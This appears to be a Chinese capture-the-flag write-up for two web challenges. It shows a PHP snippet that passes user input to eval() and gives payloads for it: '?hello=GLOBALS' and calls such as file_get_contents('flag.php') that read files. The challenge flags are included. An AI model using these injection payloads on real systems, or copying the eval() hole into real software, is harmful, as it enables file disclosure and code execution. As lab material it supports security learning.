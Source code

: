 # 爆破-1
```php
include "flag.php";  
$a = @$_REQUEST['hello'];  
if(!preg_match('/^\w*$/',$a )){  
die('ERROR');  
}  
eval("var_dump($$a);");  #提交时转换成 $GLOBALS 回显所有变量
show_source(__FILE__);  
?>
```
直接构造 payload:`?hello=GLOBALS` 提交,在所有变量中找到 flag: `flag{f210df84-58c5-4b34-a5ec-14caf0d7ec0e}`

# 爆破-2
同样的题,解法不同
构造 payload:`?hello=file_get_contents('flag.php')` 提交,`Ctrl+U` 查看源码得到 flag:`flag{45026846-5a96-4f26-bc7a-1b80077b81d7}` 
以下均可
`file_get_contents('flag.php')`
`file('flag.php')`
`show_source('flag.php')`

# 爆破-3
<!--stackedit_data:
eyJoaXN0b3J5IjpbNjE3MjMzMTMwLDE5ODIxMDI5MjYsLTE3OD
Y5NjQzMjgsNDU5Mzk2MTU1XX0=
-->